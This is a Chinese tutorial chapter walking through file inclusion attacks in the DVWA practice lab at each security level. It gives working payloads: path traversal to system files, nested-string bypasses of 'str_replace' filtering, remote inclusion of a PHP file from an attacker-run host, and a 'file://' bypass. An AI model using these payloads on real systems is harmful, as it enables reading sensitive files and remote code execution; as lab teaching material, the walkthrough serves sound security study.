



<!--more-->


# 12. 文件包含攻击实战

#### 12.1 文件包含攻击概述

　　在进行 Web 程序开发时，经常会碰到一些代码需要重复调用。比如说 jQuery 的库文件，在某个页面需要调用 JS 脚本时，可能就需要在该页面中载入 jQuery 的库文件；再比如说一个网站中的所有页面的页头和页尾可能都是一样的，一般页头是 LOGO 大图和导航菜单，页尾则是版权声明等信息。如果在每个页面中都是直接把重复的代码写进去，将会导致大量重复工作，而且会造成页面源码过多从而降低解析效率。

　　所以为了简化代码，一般会把重复的代码部分单独写到一个页面文件中，然后在需要调用重复内容的页面中使用 `include` 方法来包含重复代码的页面就可以了。使用 `include` 方法可以让当前页面去执行指定的另外一个文件中的代码内容。如果没有对这种行为做限制，那么黑客将很有可能让当前页面去执行超出 Web 目录中的文件，或者是 Web 目录中不希望被执行的敏感文件，甚至是远程服务器上的文件。比如黑客使用 `include` 方法去调用 Linux 系统中的 `/etc/passwd`，就会在当前页面中显示系统中的用户信息；或者黑客自己搭建 Web 服务器，在自己的服务器上写一个 `Webshell`，然后通过 `include` 方法在目标页面中执行本地服务器中的 `Webshell`。

## 　　

#### 12.2 Low 级别文件包含攻击实战

1. 安全级别设置为 `Low`，点击 `File Inclusion` 按钮，进入文件包含攻击页面。页面中有 3 个文件链接，点击后会读取出系统的相关信息，说明这 3 个文件内含有读取相关系统信息的脚本代码，被包含进当前页面执行了。当前的 `URL` 显示了 `http://192.168.75.100/dvwa/vulnerabilities/fi/?page=` 后就是被包含的文件名 `file3.php`，如图 12-1

   

   

   图 12-1

   

2. 考虑到我们当前 Web 服务器是使用的 Windows，把 URL 中的文件名替换为 `C:/windows/system32/drivers/etc/hosts`，发现可以通过绝对路径直接显示 `hosts` 文件中的内容，如图 12-2

   

   

   图 12-2

   

3. 使用相对路径 `../../phpinfo.php` 来替换 URL 中的包含文件名，可以执行 DVWA 程序自带的 `phpinfo` 信息，如图 12-3。`../` 代表当前目录的上层目录。当前目录是 `dvwa/vulnerabilities/fi/`，向上返回 2 层，就到了 `dvwa/`，所以 `../../phpinfo.php` 就是指 `dvwa/phpinfo.php` 这个文件。

   

   

   图 12-2

   

4. 在攻击机上自行搭建一个 Web 服务，我们演示环境攻击机的 IP 地址为 192.168.75.138，在 Web 根目录下写入一个 `shell.php` 文件，用来显示 `PHPINFO`，文件代码如下：

   ```
   <?php phpinfo();?>
   ```

5. PHP 默认不允许跨域引用 URL，需要到 PHP 设置中去开启。在 `PHPStudy` 中点击 其它选项菜单，点击 PHP扩展及设置，选择 参数开关设置，钩选 `allow_url_include`，如图 12-3

   

   

   图 12-2

   

6. 使用 `http://192.168.75.138/shell.txt` 来替换原 URL 中包含的文件名，可以远程执行 PHP 脚本，如图 12-3

   

   

   图 12-3

   

------

#### 12.3 Medium 级别文件包含攻击实战

1. 安全级别设置为 `Medium`，进入文件包含攻击页面，查看源码，发现使用 `str_replace()` 函数把 `http://`、`https://`、`../`、`..\` 替换为了空值，来防止远程文件包含和相对路径的文件包含，如图 12-4。但是 `str_replace()` 函数相当不安全，只做一次替换，比如在 `http://` 中再嵌套一个 `http://` 则可以绕过限制；另外，并没有对绝对路径的文件包含进行防护。

   

   

   图 12-4

   

2. 使用绝对路径来进行文件包含，不受任何影响，如图 12-5

   

   

   图 12-5

   

3. 使用相对路径进行文件包含，需要在 `../` 中多嵌套一个 `../`，在 URL 中输入包含的文件名为 `..././..././phpinfo.php`，可以成功执行，如图 12-6

   

   

   图 12-6

   

4. 使用远程文件包含，需要在 `http://` 中多嵌套一个 `http://`，在 URL 中输入包含的文件名为 `hthttp://tp://192.168.75.138/shell.php`，可以成功执行，如图 12-7

   

   

   图 12-7

   

------

#### 12.4 High 级别文件包含攻击实战

1. 设置安全级别为 `High`，进入文件包含攻击页面，查看页面源码，发现使用 `fnmatch()` 函数来检查变量 `page` 值的开头必须是 `file`，否则就不执行，如图 12-8

   

   

   图 12-8

   

2. 我们可以利用 `file` 协议来绕过防御。使用 `file` 协议可以来描述一个文件的绝对路径。我们这里在 URL 中输入包含的文件名为 `file:///C:/windows/system32/drivers/etc/hosts`，可以成功输出文件内容，如图 12-9

   

   

   图 12-9

   

------

#### 12.5 Impossible 级别文件包含攻击实战

　　在 `Impossible` 级别下，查看页面源码，发现使用了白名单机制，提交的 `page` 变量必须是 `include.php`、`file1.php`，`file2.php`，`file3.php`，否则就不执行，如图 12-10，彻底杜绝了文件包含漏洞。
　　




图 12-10